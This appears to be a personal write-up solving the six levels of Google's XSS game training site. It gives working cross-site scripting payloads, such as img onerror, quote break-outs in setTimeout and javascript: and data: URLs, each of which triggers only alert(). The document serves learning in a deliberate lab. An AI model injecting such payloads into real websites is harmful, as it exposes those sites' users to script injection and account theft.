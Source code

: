 # Google XSS game

**[URL](https://xss-game.appspot.com/)**

## Level 1

the query can be `<script>alert()</script>` i.e. the URL can be `https://xss-game.appspot.com/level1/frame?query=<script>alert()</script>`

![level 1](/assets/gxss/level1.png)

## Level 2

the text that we enter does not seem to render a script, so maybe there's an evasion against this

so, we can try another type of xss attack - through `img` tag's `onerror` attribute

payload - `<img src=x onerror=alert()>`

![level 2](/assets/gxss/level2.png)

## Level 3

the source of `/level3/frame/` gives us this:

```js
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

so, we can manipulate the URL to go to `https://xss-game.appspot.com/level3/frame#' onerror=alert() src='`

![level 3](/assets/gxss/level3.png)

## Level 4

since there is a timeout here, the function used can be this

```js
setTimeout(function(){ alert("Time is up!"); }, 3000);
```

this means, for it to receive user input, it must be like this

```js
setTimeout(function(){ alert("Time is up!"); }, userInput);
```

or

```js
setTimeout(function(){ alert("Time is up!"); }, `${userInput}`);
```

so, we can try this in the text box - `0); alert(1` - but this does not work

so, we try the same with strings - `0'); alert('1` - and it works

![level 4](/assets/gxss/level4.png)

## Level 5

the query string `?next=confirm` was a bit suspicious and looked exploitable

the value of next turned out to be relative link to the next page that we'll go to after pressing `next` in the page

so, there might be a possibility to inject javascript as a link i.e. as `javascript:alert()`

so, i changed to URL to be `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()` and it worked

![level 5](/assets/gxss/level5.png)

## Level 6

got stuck in this level, so other solutions told me about using data urls like this `data:text/javascript,alert(1)`

![level 6](/assets/gxss/level6.png)

ref

* [data urls](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs)
* [google xss docs](https://www.google.com/about/appsecurity/learning/xss/index.html)
